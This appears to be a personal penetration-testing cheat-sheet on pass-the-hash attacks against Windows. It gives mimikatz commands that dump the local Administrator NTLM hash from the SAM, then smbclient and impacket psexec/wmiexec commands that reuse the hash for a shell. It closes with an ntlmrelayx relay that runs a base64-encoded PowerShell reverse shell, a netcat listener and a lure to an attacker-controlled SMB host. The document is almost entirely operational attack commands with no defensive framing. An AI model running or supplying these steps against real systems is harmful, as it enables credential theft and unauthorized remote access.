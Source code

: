 ```yaml
---
title: Pass the Hash
updated: 2025-04-29 04:36:28Z
created: 2025-04-28 08:49:43Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Extract HASH of Local Administrator using mimikatz:

1. As **Administrator**, run `mimikatz.exe` 
2. `privilege::debug`
3. `token::elevate` 
4. `lsadump::sam`
5. Save the Administrator Hash for later use.
**Note**: Passing NTLM hash requires NTLM to be the authentication mechanism.
(eg, SMB, RDP, WinRM)

* * *
## SMB
`smbclient \\\\<target>\\<share> -U <user> --pw-nt-hash <Insert_Hash>`
* * *
## Obtain a Shell

### impacket-psexec
`impacket-psexec -hashes 00000000000000000000000000000000:<NTLM_HASH> <user>@<target>`

### impacket-wmiexec
`impacket-wmiexec -hashes 00000000000000000000000000000000:<NTLM_HASH> <user>@<target>`
* * *
## Pass the Hash
**Note**: Microsft **UAC** may impact commands run with Pass the Hash
### SMB
Pre-requisite: Create a reverse shell to port 8080 and then Base64 encode it.
1.Using **impacket**, setup a relay to run a powershell command on the target
`impacket-ntlmrelayx --no-http-server -smb2support -t <target> -c "powershell -enc <Bas64_coded_command>"`
2. Start a **netcat** listener on port **8080**
`nc -nvlp 8080`
3. On the target machine, connet to the kali fake with smb
`dir \\<evil>\blah`
4. Check the conosle running impacket relay to see if the hash was relayed and the powershell command executed.
